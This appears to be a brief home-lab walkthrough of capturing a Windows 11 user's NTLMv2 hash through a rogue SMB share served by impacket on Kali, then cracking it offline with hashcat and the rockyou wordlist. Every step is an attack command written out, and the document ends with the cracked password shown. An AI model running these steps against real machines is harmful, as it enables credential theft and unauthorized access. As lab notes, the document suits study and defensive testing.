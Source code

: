 # Steps:
1. In Win11 `Enable-WindowsOptionalFeature -Online -FeatureName SMB1Protocol -All`.
1. In Kali `sudo mkdir /tmp/fakeshare`.
1. In Kali `python3 /usr/share/doc/python3-impacket/examples/smbserver.py SHARE /tmp/fakeshare -smb2support`.
1. In Win11, browse `\\192.168.8.10\SHARE` in file explorer.
1. In Kali `Save the captured NTLMv2 authentication hash into ~/Desktop/ntlmv2.hash`.
1. In Kali `hashcat -m 5600 ~/Desktop/ntlmv2.hash /usr/share/wordlists/rockyou.txt`.

# Results
The result will be listed as Candidates.#1....: Password -> Password


